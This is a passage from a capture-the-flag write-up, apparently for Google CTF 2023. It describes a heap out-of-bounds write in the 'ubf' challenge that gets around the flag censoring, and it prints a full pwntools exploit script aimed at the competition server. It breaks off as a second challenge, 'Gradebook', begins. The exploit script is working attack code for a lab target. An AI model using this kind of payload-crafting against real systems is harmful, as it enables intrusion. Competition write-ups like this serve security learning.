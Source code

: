 This is clearly an out of bound, and the flag also lies on the heap, so I used this out of bound to modify the flag pattern so `censor_string` won't recognize it's the flag, for the remote session I get all motd, team and flag back to local and setup the docker to replicate the remote environment and brute it to get the offset, after getting the offset.

```python
from pwn import *
from base64 import b64encode

def pwn(idx):
    io = remote('ubf.2023.ctfcompetition.com', 1337)
    #io = remote('localhost', 1337)

# boolean

    raw_payload = p32(0x1)
    raw_payload += b'b'
    raw_payload += p16(0x1)
    raw_payload += p16(0xffff-9529)
    raw_payload += p8(0x20) * 0x1

# string

    raw_payload += p32(0x1000)
    raw_payload += b's'
    raw_payload += p16(1)
    raw_payload += p16(2)
    raw_payload += p16(5)
    raw_payload += b'$FLAG'

    payload = b64encode(raw_payload)

    print(payload)
    io.sendlineafter(b'encoded:\n', payload)
    res = io.recvall()
    if b'CTF{XXXX' not in res and b'TF{' in res:
        exit(1)
    print(res)
    io.close()

pwn(0)
```

## Gradebook

> They change the password every couple of weeks, but I know where they write it down.

I solved this challenge over-time but I thing I learnt something new from it so this is it anyway <3

The binary prepared the "win" for me, that's a great start. After had analyzed the target for a while. I will tear down the target into the main functionality and structures.
